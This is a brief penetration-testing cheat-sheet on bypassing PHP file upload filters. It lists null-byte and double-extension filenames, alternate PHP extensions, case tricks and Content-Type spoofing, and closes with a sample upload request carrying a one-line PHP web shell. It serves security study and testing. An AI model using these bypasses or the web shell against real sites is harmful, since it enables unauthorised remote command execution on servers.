 ```yaml
---
title: WebApp PHP - File Upload Bypass
date: 2020-5-21
layout: single
classes: wide
tags:
  - PHP
  - WebApp
  - File
  - Upload
  - Bypass
--- 
```


## Overview
Techniques gathered to bypass PHP file upload filters.

### PHP Null Byte

```
photo.php%00.jpg
```
+ Only usable with older PHP versions ~<5.4

### Apache Dual Extentions

```
photo.php.png
```
+ Apache has a setting were a file can have 2 extensions
+ Apache will process the file as either type based on the extensions


### Alternate PHP Extentions

```
.phtml  .php3   .php4   .php5   .phps
```
+ There are many different file extensions for PHP.
+ Developers may blacklist `*.php` but forget `*.php3`

### Case Sensitive Bypass

+ Developers may blacklist `*.php` using case sensitive regex
+ This can be bypassed with `file.PhP`

### PHP File-Type Bypass

+ Typical of image uploads, developers will try to whitelist the allowed file types that may be uploaded.
```php
if ((($_FILES["file"]["type"] == "image/gif") || 
     ($_FILES["file"]["type"] == "image/jpeg")|| 
     ($_FILES["file"]["type"] == "image/JPG") ||
     ($_FILES["file"]["type"] == "image/png") || 
     ($_FILES["file"]["type"] == "image/pjpeg"))
```

+ This can be bypassed by changing the `Content-Type` in the POST request sent to the server
```php
Content-Disposition: form-data; name="file"; filename="magic.php"
Content-Type: image/png

<?php echo shell_exec($_GET["magic"]); ?>
```


## External References 
[PentesterLab.blog - Bypassing File Upload Restrictions](https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/)


